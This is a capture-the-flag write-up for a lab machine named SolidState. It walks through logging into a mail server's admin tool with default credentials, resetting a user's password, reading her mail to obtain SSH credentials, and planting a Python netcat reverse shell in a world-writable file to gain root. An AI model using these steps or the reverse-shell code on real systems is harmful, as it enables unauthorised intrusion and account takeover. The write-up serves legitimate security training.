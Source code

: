 # SOLIDSTATE
### Info:
OS: Linux<br>
IP: 10.10.10.51<br>
Difficulty : Easy <br>
### Enumeration:
```nmap -p1-10000 10.10.10.51``` <br>

gives us the results : <br>
![alt text](https://i.imgur.com/id9QxC6.png)
<br>
### Exploitation:
```
root@kali:~/Desktop/boxes/Solidstate# telnet 10.10.10.51 4555
Trying 10.10.10.51...
Connected to 10.10.10.51.
Escape character is '^]'.
JAMES Remote Administration Tool 2.3.2
Please enter your login and password
Login id:
root
Password:
root
Welcome root. HELP for a list of commands
listusers
Existing accounts 7
user: james
user: ../../../../../../../../etc/bash_completion.d
user: thomas
user: john
user: mindy
user: hacker
user: mailadmin
setpassword mindy toor
Password for mindy reset
```
Now we have the password for user `mindy`, and we can read her mails on port 110 (pop3).
```
root@kali:~/Desktop/boxes/Solidstate# telnet 10.10.10.51 110
Trying 10.10.10.51...
Connected to 10.10.10.51.
Escape character is '^]'.
+OK solidstate POP3 server (JAMES POP3 Server 2.3.2) ready 
user mindy
+OK
pass toor
+OK Welcome mindy
list
+OK 2 1945
1 1109
2 836
RETR 2
+OK Message follows
Return-Path: <mailadmin@localhost>
Message-ID: <16744123.2.1503422270399.JavaMail.root@solidstate>
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit
Delivered-To: mindy@localhost
Received: from 192.168.11.142 ([192.168.11.142])
          by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 581
          for <mindy@localhost>;
          Tue, 22 Aug 2017 13:17:28 -0400 (EDT)
Date: Tue, 22 Aug 2017 13:17:28 -0400 (EDT)
From: mailadmin@localhost
Subject: Your Access

Dear Mindy,


Here are your ssh credentials to access the system. Remember to reset your password after your first login. 
Your access is restricted at the moment, feel free to ask your supervisor to add any commands you need to your path. 

username: mindy
pass: P@55W0rd1!2@

Respectfully,
James
```
Reading the mails we get the ssh creds and thereby we get the user.
<br>
### Privilege Escalation:
Running Linenum.sh we get :
![alt text](https://i.imgur.com/nPNOdpA.png) <br>
Adding this reverse shell code:
```
#!/usr/bin/env python
import os
import sys
try:
     os.system('nc -e /bin/sh 10.10.16.16 1337 ')
except:
     sys.exit()
```
and listening on xyz port we get a shell
![alt text](https://i.imgur.com/in0x9oq.png)
<br>
### Gained knowledge:
Enumerating POP servers <br>
Exploiting world-writable files <br>
